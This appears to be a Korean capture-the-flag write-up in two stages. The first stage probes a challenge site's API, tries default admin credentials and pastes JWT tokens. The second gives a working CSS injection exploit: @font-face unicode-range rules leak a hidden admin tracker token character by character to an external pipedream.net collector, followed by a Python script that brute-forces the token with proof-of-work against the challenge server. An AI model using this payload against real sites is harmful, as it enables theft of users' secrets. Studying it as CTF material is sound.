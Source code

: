 # 2단계

계정 : icansolve / icansolve



css injection 가능 (csp style-src: * font-src: *)

```html

...
    
<link rel="stylesheet" href="http://141.223.175.203:5050/a.css"></p>
<hr />
<div class="alert alert-success" role="alert">We reviewed it, but it can't be accepted</div></div>
<span class="tracker-hidden">569ABCDEFHIJNPVXYZbefijklmoqtxyz</span>
</body>
...

```

논문 페이지 안에 tracker 있음. 확인해보니 각 유저의 것이 나오는게 맞음. 어드민이 본다면 어드민의 tracker가 박히는 것임.



`<link rel="stylesheet" href="http://141.223.175.203:5050/a.css">` 로 내 css 추가

```css
@font-face{ font-family:poc; src: url(https://7e695058bd430b379699858be84c3f34.m.pipedream.net/0);  unicode-range:U+0030; }
@font-face{ font-family:poc; src: url(https://7e695058bd430b379699858be84c3f34.m.pipedream.net/1);  unicode-range:U+0031; }
@font-face{ font-family:poc; src: url(https://7e695058bd430b379699858be84c3f34.m.pipedream.net/2);  unicode-range:U+0032; }
@font-face{ font-family:poc; src: url(https://7e695058bd430b379699858be84c3f34.m.pipedream.net/3);  unicode-range:U+0033; }
@font-face{ font-family:poc; src: url(https://7e695058bd430b379699858be84c3f34.m.pipedream.net/4);  unicode-range:U+0034; }
@font-face{ font-family:poc; src: url(https://7e695058bd430b379699858be84c3f34.m.pipedream.net/5);  unicode-range:U+0035; }
@font-face{ font-family:poc; src: url(https://7e695058bd430b379699858be84c3f34.m.pipedream.net/6);  unicode-range:U+0036; }
@font-face{ font-family:poc; src: url(https://7e695058bd430b379699858be84c3f34.m.pipedream.net/7);  unicode-range:U+0037; }
@font-face{ font-family:poc; src: url(https://7e695058bd430b379699858be84c3f34.m.pipedream.net/9);  unicode-range:U+0039; }
@font-face{ font-family:poc; src: url(https://7e695058bd430b379699858be84c3f34.m.pipedream.net/A);  unicode-range:U+0041; }
@font-face{ font-family:poc; src: url(https://7e695058bd430b379699858be84c3f34.m.pipedream.net/B);  unicode-range:U+0042; }

...

@font-face{ font-family:poc; src: url(https://7e695058bd430b379699858be84c3f34.m.pipedream.net/x);  unicode-range:U+0078; }
@font-face{ font-family:poc; src: url(https://7e695058bd430b379699858be84c3f34.m.pipedream.net/y);  unicode-range:U+0079; }
@font-face{ font-family:poc; src: url(https://7e695058bd430b379699858be84c3f34.m.pipedream.net/z);  unicode-range:U+007a; }
.tracker-hidden{ font-family:poc; display:block !important;  }
```

https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf :여기에 나온 기법 적용

추가로 할만한 것들

https://github.com/cgvwzq/css-scrollbar-attack

https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231



![image-20200912222918611](C:\Users\haebin\AppData\Roaming\Typora\typora-user-images\image-20200912222918611.png)

그리고 나서 제출하면 token에 해당하는 글자들이 온다

https://pipedream.com/sources/dc_WbuEEB

하지만 31글자다. 분명히 32글자이어야 하는데, 31글자다.

```
0utzXqryhoaWgdSMpL3i2e1Q7JNYIln
369BFGHLMNOPQRTVWZabcefhijlnpuxz
r0uqpyzthSWYXeidgoN3l2Q7IMJ1nLa
```

3번을 시험했다. 31글자다.

정렬을 했다.

```
01237IJLMNQSWXYadeghilnopqrtuyz
```

셋 다 똑같다. 실수라고 보긴 어려울 것 같다.

31글자라 32글자가 되기 위해 하나 중복이 있다고 밖에 생각할 수 없다.

```python
import requests
import random
import hashlib
import string

def get_random_string(length):
    letters = string.ascii_letters + string.digits
    result_str = ''.join(random.choice(letters) for i in range(length))
    return result_str

def PoW(target, start, end):
    while True:
        s = get_random_string(20)
        h = hashlib.sha1(s).hexdigest()
        if h[start:end] == target:
            return s


s = "01237IJLMNQSWXYadeghilnopqrtuyz"


url = "http://3.35.121.198:40831/vaccine.php"
coo = {"PHPSESSID":"tt13ib28spldb6o8o56cml8lk"}


r = requests.get(url, cookies=coo)
print(r.text)

for i in range(31):
    c = s[i]
    ss = s[:i] + c + s[i:]
    print(ss)


    t = r.text
    t = t[t.index("==="):]
    t = t[:t.index("</label>")]
    t = t[4:]
    print(t)

    pow = PoW(t, 0, 6)
    print(pow)

    r = requests.post(url, cookies=coo, data={"code": ss, "pow": pow})
    print(r.text)

    print("="*40)

```

중복이 있는 각 경우에 대해 PoW를 넣어주는 스크립트를 작성해서 돌린다.











# 1단계



/api/static/{id} : mypage 볼때 request, 404

/api/get_info : mypage 볼때 request, `{"perm":"Guest"}` `{"perm":"Member"}`

/api/bss : 게시판 

GET:

`{"data":[]}`



POST: `{title: "sadd", body: "wqe"}`

`not enough permission`



/api/signin : `{userid: "aaaaaaaab", password: "bbbbbbbbb"}`, `{"username":"aaaaaaaab","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImFhYWFhYWFhYiIsImlhdCI6MTU5OTg4MjE3NX0.tjBANDcC-RePI9OWzmbSyZF_dhMsUqhjNSL8KBSKbUo"}`

/api/signup : `{userid: "aaaaaaaab", password: "bbbbbbbbb"}`, OK

 

/api/auth : `{division_number: "zz"}`



SQL injection? not likely, every input seems to be sanitized



admin / admin

guest(imnotkind) token :

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6Imltbm90a2luZCIsImlhdCI6MTU5OTg4NTg4M30.yIKjfvsa2XdQJGgGVARJzvOjsV513BtabTFUs5iRGDY



member(admin) token : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImFkbWluIiwiaWF0IjoxNTk5ODg1MDQ1fQ.lA7kBW39hdlEL2jk41mh-wIF2sFGXSfayNvQEhw4BjU



모하라는건지 모르겠다.